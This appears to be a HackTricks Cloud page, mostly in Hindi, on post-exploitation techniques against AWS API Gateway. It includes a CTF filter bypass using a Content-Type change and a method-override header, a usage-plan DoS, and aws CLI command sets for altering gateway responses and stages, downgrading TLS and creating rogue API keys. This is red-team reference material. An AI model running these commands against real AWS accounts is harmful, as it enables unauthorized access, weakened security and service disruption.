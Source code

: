 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) में `com.amazonaws.us-east-1.execute-api` सेवा के साथ एक एंडपॉइंट बना सकते हैं, उस नेटवर्क में एंडपॉइंट को उजागर करें जहाँ आपके पास पहुँच है (संभवतः एक EC2 मशीन के माध्यम से) और सभी कनेक्शनों की अनुमति देने वाले सुरक्षा समूह को असाइन करें।\
फिर, EC2 मशीन से आप एंडपॉइंट तक पहुँच प्राप्त कर सकेंगे और इसलिए उस गेटवे API को कॉल कर सकेंगे जो पहले उजागर नहीं हुआ था।

### Bypass Request body passthrough

यह तकनीक [**इस CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) में पाई गई थी।

जैसा कि [**AWS दस्तावेज़**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) में `PassthroughBehavior` अनुभाग में संकेतित है, डिफ़ॉल्ट रूप से, मान **`WHEN_NO_MATCH`** , जब अनुरोध के **Content-Type** हेडर की जांच की जाती है, तो अनुरोध को बिना किसी परिवर्तन के बैक एंड पर पास करेगा।

इसलिए, CTF में API गेटवे में एक एकीकरण टेम्पलेट था जो **फ्लैग को प्रतिक्रिया में निकालने से रोक रहा था** जब एक अनुरोध `Content-Type: application/json` के साथ भेजा गया था:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

हालांकि, **`Content-type: text/json`** के साथ एक अनुरोध भेजने से उस फ़िल्टर को रोका जा सकता है।

अंत में, चूंकि API Gateway केवल `Get` और `Options` की अनुमति दे रहा था, इसलिए किसी भी सीमा के बिना एक मनमाना dynamoDB क्वेरी भेजना संभव था, जिसमें क्वेरी को बॉडी में भेजकर और हेडर `X-HTTP-Method-Override: GET` का उपयोग किया गया: 

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

In the **Enumeration** section you can see how to **obtain the usage plan** of the keys. If you have the key and it's **limited** to X usages **per month**, you could **just use it and cause a DoS**.

The **API Key** just need to be **included** inside a **HTTP header** called **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateGatewayResponse` and `apigateway:CreateDeployment` can **मौजूदा गेटवे प्रतिक्रिया को संशोधित कर सकते हैं ताकि कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल किए जा सकें जो संवेदनशील जानकारी लीक करते हैं या दुर्भावनापूर्ण स्क्रिप्ट निष्पादित करते हैं**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुर्भावनापूर्ण स्क्रिप्ट का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` की अनुमति है, **एक मौजूदा API गेटवे स्टेज को ट्रैफ़िक को एक अलग स्टेज पर पुनर्निर्देशित करने या कैशिंग सेटिंग्स को बदलने के लिए संशोधित कर सकता है ताकि कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त की जा सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफ़िक को बाधित या इंटरसेप्ट करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` की अनुमति है, **एक मौजूदा API गेटवे REST API विधि के विधि प्रतिक्रिया को संशोधित कर सकता है ताकि कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल किए जा सकें जो संवेदनशील जानकारी लीक करते हैं या दुर्भावनापूर्ण स्क्रिप्ट निष्पादित करते हैं**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुर्भावनापूर्ण स्क्रिप्ट का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` की अनुमति है, **API गेटवे REST API सेटिंग्स को लॉगिंग को अक्षम करने या न्यूनतम TLS संस्करण को बदलने के लिए संशोधित कर सकता है, जो संभावित रूप से API की सुरक्षा को कमजोर कर सकता है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, संभावित रूप से अनधिकृत पहुंच की अनुमति देना या संवेदनशील जानकारी को उजागर करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास अनुमतियाँ `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` हैं, वह **नए API कुंजी बना सकता है, उन्हें उपयोग योजना के साथ जोड़ सकता है, और फिर इन कुंजियों का उपयोग API तक अनधिकृत पहुंच के लिए कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को बायपास करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
